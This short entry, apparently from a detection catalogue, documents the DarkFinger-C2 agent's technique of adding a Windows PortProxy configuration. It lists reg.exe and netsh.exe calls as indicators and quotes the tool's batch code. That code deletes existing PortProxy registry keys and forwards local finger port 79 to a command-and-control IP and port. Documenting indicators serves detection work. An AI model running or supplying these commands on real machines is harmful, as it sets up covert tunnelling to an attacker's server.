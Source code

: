 - Description: Add PortProxy configuration to the registry
- Source Reference:
  - https://github.com/hyp3rlinx/DarkFinger-C2/blob/master/DarkFinger-C2-Agent.bat#L185
- Indicators:
  - Call to `reg.exe` and `netsh.exe`. (`%DARK_IP%` refers the C2_IP and `%DARK_PORT%` refers to C2_PORT)

    ```batch
    ECHO [!] Removing any previous Portproxy from registry.
    REG DELETE HKLM\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4 /F  >nul 2>&1
    SET LOCAL_FINGER_PORT=79
    IF %DARK_PORT%==79 call cmd /c netsh interface portproxy add v4tov4 listenaddress=%LOCAL_IP% listenport=%LOCAL_FINGER_PORT% connectaddress=%DARK_IP% connectport=%DARK_PORT%
    IF %DARK_PORT%==79 call cmd /c netsh interface portproxy add v4tov4 listenaddress=%LOCAL_IP% listenport=%DARK_PORT% connectaddress=%LOCAL_IP% connectport=%LOCAL_FINGER_PORT%
    IF NOT %DARK_PORT% == 79 call cmd /c netsh interface portproxy add v4tov4 listenaddress=%LOCAL_IP% listenport=%LOCAL_FINGER_PORT% connectaddress=%DARK_IP% connectport=%DARK_PORT%
    IF NOT %DARK_PORT% == 79 call cmd /c netsh interface portproxy add v4tov4 listenaddress=%LOCAL_IP% listenport=%DARK_PORT% connectaddress=%LOCAL_IP% connectport=%LOCAL_FINGER_PORT%
    IF %Admin% == 0 netsh interface portproxy show all
    GOTO CmdOpt
    ```
